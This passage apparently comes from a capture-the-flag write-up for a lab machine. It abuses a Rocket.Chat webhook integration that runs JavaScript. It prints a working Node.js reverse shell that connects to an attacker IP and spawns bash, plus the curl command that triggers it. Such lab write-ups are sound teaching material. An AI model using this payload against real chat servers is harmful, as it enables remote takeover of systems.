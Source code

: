 <figure><img src="../../../.gitbook/assets/image (640).png" alt=""><figcaption></figcaption></figure>

Reading the documentation for Rocket Chat, it appears that this runs Javascript code!

{% embed url="https://docs.rocket.chat/use-rocket.chat/workspace-administration/integrations" %}

We can grab a quick node.js reverse shell and slap it in there.&#x20;

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.13", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

After renaming the post and which channel to put it at (use #general), there's a `curl` command generated at the bottom.

```bash
curl -X POST -H 'Content-Type: application/json' --data '{"text":"Example message","attachments":[{"title":"Rocket.Chat","title_link":"https://rocket.chat","text":"Rocket.Chat, the best open source chat","image_url":"/images/integration-attachment-example.png","color":"#764FA5"}]}' http://talkative.htb:3000/hooks/Csc8cKYTF7unv6NMQ/jqsXqgirwnZxXF7BLb4ooc3CYpKp8tbfmM5DA55tCL9vWjwb
```

Afterwards, we would catch a reverse shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (4041).png" alt=""><figcaption></figcaption></figure>
